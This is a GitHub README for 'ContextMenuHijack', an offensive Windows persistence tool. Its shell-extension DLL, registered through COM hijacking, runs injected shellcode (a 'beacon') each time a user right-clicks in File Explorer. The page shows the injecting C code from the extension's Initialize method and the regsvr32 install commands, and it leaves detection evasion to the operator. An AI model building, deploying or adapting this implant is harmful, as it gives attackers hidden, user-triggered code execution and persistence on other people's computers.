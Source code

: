 # ContextMenuHijack

This original idea that inspired me is from [@NinjaParanoid](https://twitter.com/NinjaParanoid) :

[![Video](https://user-images.githubusercontent.com/75935486/212143342-bda8da88-b076-488f-a3c2-126a4875c2c1.png)](https://www.youtube.com/watch?v=SwdmijpSjjA&ab_channel=ChetanNayak)


[ContextMenuHijack](https://github.com/RistBS/ContextMenuHijack) is a simple persistence technique that use COM hijacking based on human behavior, when you right click on a file/folder in the File Explorer to open the Context Menu, it executes at the same time the beacon we specified.
```c
IFACEMETHODIMP FileContextMenuExt::Initialize( LPCITEMIDLIST pidlFolder, LPDATAOBJECT pDataObj, HKEY hKeyProgID ) {
    DWORD tid = NULL;
    CreateThread(NULL, 1024 * 1024, (LPTHREAD_START_ROUTINE)InjectShc, NULL, 0, &tid);

    if (NULL == pDataObj) {
	if (pidlFolder != NULL) {
	}
        return S_OK;
    }
    return S_OK;
}
```

### Usage

You just have to load the solution file (.sln) and build it. It's important to know that you need **adminstrator privileges** to use this persistence technique. Once you have done all of this, you just have to register the DLL file in the registry with `regsvr32`:

```powershell
regsvr32 "C:\path\to\ContextMenuHijack.dll"
```

> if you want to uninstall it just use `/u` flag
```powershell
regsvr32 /u "C:\path\to\ContextMenuHijack.dll"

- this technique can be easily detected from the thread stack of `explorer.exe`, it is up to you to use your own evasion tradecraft 
![image](https://user-images.githubusercontent.com/75935486/212399032-3249579d-fff5-42e7-b18b-b3e7d13efaad.png)


# Credits

- https://github.com/rikka0w0/ExplorerContextMenuTweaker
- https://learn.microsoft.com/en-us/windows/win32/shell/how-to-implement-the-icontextmenu-interface?redirectedfrom=MSDN
- https://www.codeproject.com/Articles/441/The-Complete-Idiot-s-Guide-to-Writing-Shell-Extens
